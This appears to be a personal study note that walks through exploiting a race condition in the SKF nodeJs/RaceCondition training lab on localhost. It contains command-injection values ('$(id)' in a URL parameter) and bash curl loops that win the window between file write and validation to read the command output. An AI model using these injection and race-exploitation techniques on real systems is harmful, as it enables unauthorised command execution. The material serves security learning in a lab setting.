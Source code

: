 ```yaml
---
tags:
  - vulnerabilty
  - "#racecondition"
---
```


# What is a Race Condition

Where two or more services fight for the same resources and don't exists any mechanism that synchronize the access of services.

If two process try to access at the same time, could be that one of them will be unpredictable, or a not expected behavior 



---
# Exploiting

Go to indicate folder and use `sudo npm install` and `sudo npm start`

If you have some problema with `npm install` add a `--force`

![](../../Images/Pasted%20image%2020230906154654.png)

We are analyze the code of the website that is in **app.js** 

And we can see that we can't execute command thanks to this regex, but before execute the valid function, we can see that the file with our name (or malicious command) exists, but after is changed by the regex

![](../../Images/Pasted%20image%2020230906161006.png)

If the variable valid is empty, they call boot_clean() and this function delete the file hello.txt, but before this the command is executed

![](../../Images/Pasted%20image%2020230906164825.png)

In this piece of code exist a little margin when create the file `fs.writeFileSync`, then execute the file and apply the validation, if you go so fast to read the file, maybe you have time to see the result.

We can do this one-liner to check if the command is executing, this is possible because we have access to the files of the website:

You put some name in the website, in my case I put my name and then I use this loop

````bash
while true; do cat hello.txt | grep -v "Sergio"; done
````

`hello.txt` --> In this file is where stored the word that you introduce in the website

`grep` --> You are using grep because you are not interested in see the content of the file until don't change the input in the website

In the website try to inject command:

````bash
$(id)
or
`id`
````

Go to terminal and stop the loop with ctrl_c and if you to the begging you can see the result of the command executed

![](../../Images/Pasted%20image%2020230906165756.png)

But how we can do this if we haven't the files?

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -i "Check this out" | html2text | xargs; done

# Genereated by S4vitaar
````

You have to send the information in the website, in my case I don't change the name `Default User`

Click on **Make it mine!**

In terminal you have to see this:

![](../../Images/Pasted%20image%2020230906170800.png)

Now we are going to hide the output that contain `Default User`:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -i "Check this out" | html2text | xargs | grep -v "Default User"; done
````

Now you need to copy the url when put the name, the URL be like:

![](../../Images/Pasted%20image%2020230906171009.png)

````bash
http://localhost:5000/?person=Default+User&action=validate
````

In other terminal you have to use curl command, but change the `Default User` by `$(id)`:

````bash
curl -s -X 'http://localhost:5000/?person=$(id)&action=validate'
````

**Important** --> You have to use single quotes in url because the $(id) would be interpreted by your own machine and this is not interest us

Now we are going to put this command in a while loop:

````bash
while true; do curl -s -X 'http://localhost:5000/?person=$(id)&action=validate'; done
````

After running this command you have to have the after command executing, you have to execute this command in a terminal:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -i "Check this out" | html2text | xargs | grep -v "Default User"; done
````

and the last in other terminal:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?person=$(id)&action=validate'; done
````

We can see a lot of unnecessary output:

![](../../Images/Pasted%20image%2020230906171733.png)

We can delete this from our output:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | xargs | grep -vE "pepe|Important|Default User"; done
````

As I am somewhat impatient I change the name and put `pepe` and I have to change a little the loop 

You have to wait and you can see the result:

![](../../Images/Pasted%20image%2020230906182544.png)



---

# Labs

We are going to use [skf labs](https://github.com/blabla1337/skf-labs)

nodeJs/RaceCondition

After we are going to see nodeJs/RaceCondition-file-write

